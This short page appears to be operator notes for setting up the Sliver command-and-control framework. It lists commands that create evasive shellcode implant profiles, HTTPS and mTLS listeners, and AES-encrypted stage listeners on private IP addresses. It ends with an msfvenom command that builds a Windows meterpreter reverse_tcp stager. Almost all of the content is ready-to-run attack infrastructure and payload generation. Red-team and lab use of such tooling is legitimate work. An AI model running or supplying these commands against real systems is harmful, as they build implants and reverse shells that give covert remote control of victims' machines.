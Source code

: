 # Sliver C2

## Setup Sliver for SliverLoader or MacroSliver with Encryption, Compression, HTTP(S) as Protocol and TLS

Create Profile
```bash
sliver > profiles new -b https://192.168.8.205:443 --evasion --format shellcode --arch amd64 sliver-amd64
```
For 32 bit payloads use
```bash
sliver > profiles new -b https://192.168.8.205:444 --evasion --format shellcode --arch x86 sliver-x86
```

Setup Listener with certificate for tls
```bash
sliver > https -L 192.168.8.205 -l 443 -c /tmp/certs/crt.crt -k /tmp/certs/key.key
```
```bash
sliver > https -L 192.168.8.205 -l 444 -c /tmp/certs/crt.crt -k /tmp/certs/key.key
```

Setup Stager Listener 
```
sliver > stage-listener --url https://192.168.8.205:8443 --profile sliver-amd64 -c /tmp/crt.crt -k /tmp/key.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV
```
or for 32 bit
```
sliver > stage-listener --url https://192.168.8.205:8444 --profile sliver-x86 -c /tmp/crt.crt -k /tmp/key.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV
```

## Setup Sliver with mtls and beacon payload and create a payload with msfvenom

Create Profile
```bash
sliver > profiles new beacon --mtls 192.168.45.159:445 --format shellcode msftest
```

```bash
sliver > mtls -L 192.168.45.159 -l 445
```

```bash
sliver > stage-listener -u tcp://192.168.45.159:8080 -p msftest
```

For this, a stager with msfvenom can be created as follows

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.159 LPORT=8080 -f exe -o stager.exe
```

